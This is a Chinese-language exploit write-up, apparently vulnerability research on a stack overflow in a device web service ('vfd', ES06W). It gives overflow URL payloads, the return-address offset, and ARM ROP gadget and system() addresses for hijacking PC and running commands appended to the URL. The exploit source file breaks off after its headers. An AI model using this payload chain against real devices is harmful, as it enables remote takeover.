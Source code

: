   
这里尝试对sub_D7A8函数中的栈溢出漏洞进行利用。adb连接设备后通过gdb调式vfd程序。构造如下POC发送：  
```
http://192.168.0.1:8080/aaabacadaeafagahaiajakalamanaoapaqarasatauavawaxayazaAaBaCaDaEaFaGaHaIaJaKaLaMaNaOaPaQaRaSaTaUaVaWaXaYaZa0a1a2a3a4a5a6a7a8a9babbbcbdbebfbgbhbibjbkblbmbnbobpbqbrbsbtbubvbwbxbybzbAbBbCbDbEbFbGbHbIbJbKbLbMbNbObPbQbRbSbTbUbVbWbXbYbZb0b1b2b3b4b5b6b7b8b9cacbcccdcecfcgchcicjckclcmcncocpcqcrcsctcucvcwcxcycz
```  
  
  
根据PC寄存器地址定位到要覆盖的返回地址偏移为261。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8F2cHjnDqHrjYibMZy4UJNkWDl91mIYDpKMoJ00KkWVnM2WrxdGu7YKwBTyGfVWW43bjCTMmhH4iajg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
修改POC如下，就可以将PC寄存器劫持为指定的地址了。  
```
http://192.168.0.1:8080/aaabacadaeafagahaiajakalamanaoapaqarasatauavawaxayazaAaBaCaDaEaFaGaHaIaJaKaLaMaNaOaPaQaRaSaTaUaVaWaXaYaZa0a1a2a3a4a5a6a7a8a9babbbcbdbebfbgbhbibjbkblbmbnbobpbqbrbsbtbubvbwbxbybzbAbBbCbDbEbFbGbHbIbJbKbLbMbNbObPbQbRbSbTbUbVbWbXbYbZb0b1b2b3b4b5b6b7b8b9cacbcccdc123DDDD
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8F2cHjnDqHrjYibMZy4UJNkWXy74mKGDibVpXUaZK18nWSgqze9FT3qT4LOXrcEiacgj2u863bcWibsrg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
漏洞函数在返回时执行POP {R4-R7,PC}，因此R4-R7寄存器也是可以控制的。![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8F2cHjnDqHrjYibMZy4UJNkWVnKEBUibJyqdQfIQap7QkdCIdJfExfR6CtdvbbylLoSLrUo40Wial9Ag/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
系统没有随机基址，漏洞利用较为简单，只需要避免字符串截断就行。因此直接从libc库中查找到MOV R0,SP; LDR R2,[R7]; BLX R2;指令的地址0x48d50294用来覆盖返回地址。![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8F2cHjnDqHrjYibMZy4UJNkWCkn9SVwJDsokEATSohOFgXydm7RxaCibGgSQuvniaicQhtIKM9jiaMfIYA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
漏洞函数返回后，SP指向覆盖的返回地址后面，就可以通过URL的内容来控制R0寄存器指向的字符串。R2寄存器可以用R7来控制。Libc中system函数地址为0x48CEA830。找到一个指向system函数地址的指针0x48CB5FBC来控制R7寄存器。![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8F2cHjnDqHrjYibMZy4UJNkWHPibPyQ2edPPPrG0Z5ZEVNs81Da4bRS69WcbG2wg9pMo9tlTJa1AYDQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8F2cHjnDqHrjYibMZy4UJNkWjicA7Af988ESonfKl7qbfAb3cYTMpJ7cMJGdGd0icyTlbL398UeiaKGog/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
从新构造如下POC后调式：![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8F2cHjnDqHrjYibMZy4UJNkW0LYWMt1nlBktjAIib8mp3numX7V7kAmyyGAqSpB8V0zhDjlsDBUO4VQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
触发漏洞后执行到0x48d50294时，R7为控制的0x48CB5FBC。![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8F2cHjnDqHrjYibMZy4UJNkW89q8w1Hr3q3vpahwibTx8CEpzB28oJMY5z1p4s0icl2yF0Zp47kE3XNw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
此时SP指向用来覆盖返回地址的值后面，可以将要执行的命令拼接在URL末尾来执行命令。![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8F2cHjnDqHrjYibMZy4UJNkW5Uyx83bOT88ibgUItrgNh7yzoDKbKglJKUiaBuTnPibUXhDUwwCShheww/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
执行到BLX R2指令时，R2就是system函数地址了。![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8F2cHjnDqHrjYibMZy4UJNkWpwILeDnmVknvI9K13qEhhSpYmu9OXkcpLatY97JcrYTBXMgEU3CKGQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
测试EXP  
：![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8F2cHjnDqHrjYibMZy4UJNkWW87c2Tuu0NibeayXjQeGibzjglgHvNhp5jibSLXkRaxo3wvibQnoib3wDlQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
EXP：  
```
// ES06W-RCE.cpp :
//
#include "stdafx.h"
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include <WinSock2.h>
#include <Windows.h>
 
 
 
#pragma comment(lib, "ws2_32.lib")
 
```